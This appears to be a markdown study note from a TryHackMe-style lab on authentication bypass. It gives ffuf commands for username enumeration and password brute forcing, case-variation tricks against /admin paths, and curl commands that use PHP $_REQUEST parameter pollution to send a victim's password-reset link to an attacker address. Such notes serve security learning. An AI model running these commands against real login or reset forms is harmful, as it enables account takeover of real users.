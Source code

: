 # Authentication Bypass
## Username Enumeration
- Try a random username that probably does not exist, and then try one that probably exists, is there a different error?
````
jksaljkfl <- username that does not exist
admin <- username that probably exists
guest <- another potential username
````
- We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below
- The ffuf tool uses a list of commonly used usernames to check against for any matches.
- Capture the request in `Burp` to find the `Content-Type`, whether its a `GET` or `POST`
````
ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/signup -mr "username already exists"
````
- `-w` -> selects the file's location
- `-X` -> argument specifies the request method
- `-d` -> the data that we are going to send
- `FUZZ` -> keyword signifies where the contents from our wordlist will be inserted in the request
- `-H` -> for adding additional headers to the request
- `-u` ->  specifies the URL we are making the request to
- `-mr` -> is the text on the page we are looking for to validate we've found a valid username
## Password Brute force attack
````
ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://MACHINE_IP/customers/login -fc 200
````
- Previously we used the FUZZ keyword to select where in the request the data from the wordlists would be inserted, but because we're using multiple wordlists, we have to specify our own FUZZ keyword.
- `W1` -> for our valid list of usernames
- `W2` -> for the list of passwords we are going to try
- `-w` -> the multiple word lists are also specified with this flag
- `-fc` -> this argument check for an HTTP status code other than a 200
## Authentication Bypass Logic Flaw
- If a specific url is blocked without authentication like `/admin`, depending on the code you may be able to bypass it.
- Try:
````
/adMin
/aDmIn
````
### Finding password reset forms
- If there is an option always make an account. There could be pages you have access to that you otherwise would not.
- Also if there is a password reset option on the site you might be able to get their password reset link sent to you.
- ![alt text](https://tryhackme-images.s3.amazonaws.com/user-uploads/5efe36fb68daf465530ca761/room-content/f457baf00c357990014739bd6bce5b75.png)
- Use curl to figure out how the parameters are passed to the server, in this example the username is a `POST` field and the email address is a `GET` field
````
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
````
- `-H` -> to add an additional header to the request.  In this case we are setting the `Content-Type` to `application/x-www-form-urlencoded`
- Can find this out in burp, or set something ourselves
- The `PHP $_REQUEST` variable is an array that contains data received from the query string and POST data. - If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form
- We can control where the password reset email gets delivered.
````
curl 'http://10.10.115.78/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
````
- Now re-running the curl command we can alter where the reset link is sent
````
curl 'http://10.10.115.78/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'
````






































































